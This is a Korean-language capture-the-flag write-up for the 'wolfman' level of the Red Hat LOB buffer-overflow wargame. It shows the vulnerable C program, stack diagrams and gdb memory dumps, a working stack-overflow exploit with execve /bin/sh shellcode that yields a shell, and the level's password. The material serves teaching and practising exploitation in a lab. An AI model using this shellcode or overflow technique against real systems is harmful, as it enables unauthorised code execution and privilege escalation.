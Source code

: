 ============================================================================================================
[redhat-lob] (5) wolfman
============================================================================================================



.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="argv[1]"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="RET"];
        e [shape=box, label="argv[1] address"];
    }


|

Source Code
============================================================================================================

.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
    }

|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) 
    SFP     (4byte)
    RET     (4byte)  <- strcpy overflow
    argc    (4byte)  <- 0x00000002
    argv[0] (4byte)  <- argv[0] 주소
    argv[1] (4byte)  <- argv[1] 주소
    ----------------
    HIGH    
    ================

|

Buffer Overflow
============================================================================================================

Overflow condition 

- environ을 초기화하여 환경 변수 사용를 통한 쉘코드 삽입이 불가능하다.
- argv[1]의 47번째 문자열이 "\\xbf"이어야 함

.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./wolfman `python -c 'print "a"*47'`

    stack is still your friend.

    $ ./wolfman `python -c 'print "a"*47+"\xbf"'`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================

argv[1]이 저장되는 주소 확인
------------------------------------------------------------------------------------------------------------

앞의 조건에 argv[1][47]값이 "\\xbf"인지 확인하기 때문에, gdb를 이용하여 argv[1]이 저장되는 주소(buffer)를 찾는다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/orc/wolfman1 `python -c 'print "a"*47+"\xbf"'`
    /bin/bash: /home/goblin/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffae8       -1073743128

    (gdb) i reg $ebp
    ebp            0xbffffb08       -1073743096

    (gdb) x/100x $esp

    ==========================================================================
    0xbffffae8:     0xbffffb08      0x400309cb      0x00000002      0xbffffb34
    0xbffffaf8:     0xbffffb40      0x40013868      0x00000002      0x08048450
    0xbffffb08:     0x00000000      0x08048471      0x08048500      0x00000002
    0xbffffb18:     0xbffffb34      0x08048390      0x0804861c      0x4000ae60
    0xbffffb28:     0xbffffb2c      0x40013e90      0x00000002      0xbffffc2e
    0xbffffb38:     0xbffffc43      0x00000000      0xbffffc74      0xbffffc96
    0xbffffb48:     0xbffffca0      0xbffffcae      0xbffffccd      0xbffffcd9
    0xbffffb58:     0xbffffcf2      0xbffffd0e      0xbffffd2d      0xbffffd38
    0xbffffb68:     0xbffffd46      0xbffffd88      0xbffffd97      0xbffffdac
    0xbffffb78:     0xbffffdbc      0xbffffdc5      0xbffffde3      0xbffffdee
    0xbffffb88:     0xbffffdff      0xbffffe0d      0xbffffe1c      0xbffffe24
    0xbffffb98:     0x00000000      0x00000003      0x08048034      0x00000004
    0xbffffba8:     0x00000020      0x00000005      0x00000006      0x00000006
    0xbffffbb8:     0x00001000      0x00000007      0x40000000      0x00000008
    0xbffffbc8:     0x00000000      0x00000009      0x08048450      0x0000000b
    0xbffffbd8:     0x000001f8      0x0000000c      0x000001f8      0x0000000d
    0xbffffbe8:     0x000001f8      0x0000000e      0x000001f8      0x00000010
    0xbffffbf8:     0x0fabfbff      0x0000000f      0xbffffc29      0x00000000
    0xbffffc08:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffc18:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffc28:     0x38366900      0x682f0036      0x2f656d6f      0x2f63726f
    0xbffffc38:     0x6f772f2e      0x616d666c      0x6100336e      0x61616161
                                                      ^               ^
    0xbffffc48:     0x61616161      0x61616161      0x61616161      0x61616161
                      ^               ^               ^ argv[1] = 0xbffffc53
    0xbffffc58:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffc68:     0x61616161      0x61616161      0x00bf6161      0x5353454c
    ==========================================================================

|

RET 주소를 argv[1] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*19 + shellcode
    SFP     (4byte)  <- shellcode
    RET     (4byte)  <- argv[1] address
    argc    (4byte)  <- 0x00000002
    argv[0] (4byte)  <- argv[0] 주소
    argv[1] (4byte)  <- argv[1] 주소
    ----------------
    HIGH    
    ================

|

오버플로우시 RET 주소를 argv[1] 주소로 변경하여 해당 쉘코드가 실행되도록 한다. buffer의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.

nop (19 byte) + shellcode (25 byte) + argv[1] address

.. code-block:: console

    $ ./wolfman `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x43\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀L▒▒▒
    Segmentation fault

    $ ./wolfman `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x53\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀S▒▒▒

    bash$ whoami
    wolfman
    bash$ my-pass
    euid = 505
    love eyuna









